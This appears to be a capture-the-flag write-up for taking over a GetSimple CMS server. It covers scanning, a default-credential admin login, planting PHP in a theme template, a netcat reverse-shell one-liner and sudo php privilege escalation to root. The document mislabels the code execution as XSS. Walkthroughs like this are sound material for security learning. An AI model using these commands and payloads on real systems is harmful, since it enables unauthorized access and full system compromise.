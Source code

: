 #Enumeration
--
Using nmap to scan the IP \
```nmap -sV -sC -O -Pn -T4 + $IP```\
Discover port 22 (SSH) and 80 (HTTP) => scan all port -p- in the background => no more discover\
Access through browser => found the comment on HTML contain /admin/ folder\
Using Gobuster to quick scan other directory => found some other like data, theme,...\
Access the /admin/ directory => got the login page of GetSimple CMS => try some common credential like admin:admin => succeed login\
Confirm by the admin.xml file in /data/users/ => discover the username admin with hashed password (google => found "admin")

#Web Page exploit
--
Looking around all module of the page => Found GetSimple version 3.3.15 => searchsploit find some XSS vuln for version <=3.3.15\
Discover that there are some XSS in the theme edit function => try to access and edit the template \
=> replace the whole PHP script in template.php with <?php system ("id"); ?>\
Access the php file through /theme/ => the result return the ID command output => confirm XSS vuln

#Gain foothold
--
Replace with the reverse shell script\
```<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $YOUR_IP $PORT >/tmp/f"); ?>```\
Open listening port on the local machine
```nc -lvnp $PORT```\
Access the php file => got the shell and flag\
Using the following code to gain TTY\
```python3 -c 'import pty; pty.spawn("/bin/bash")'```\
Got the flag

#PrivEsc
--
Try discover any sudo command can be used\
```sudo -l```\
Got the /bin/php\
Look on the GTFOBins => found a script for PrivEsc\
```sudo php -r "system(/bin/sh);"```\
Got the root priv => got the flag

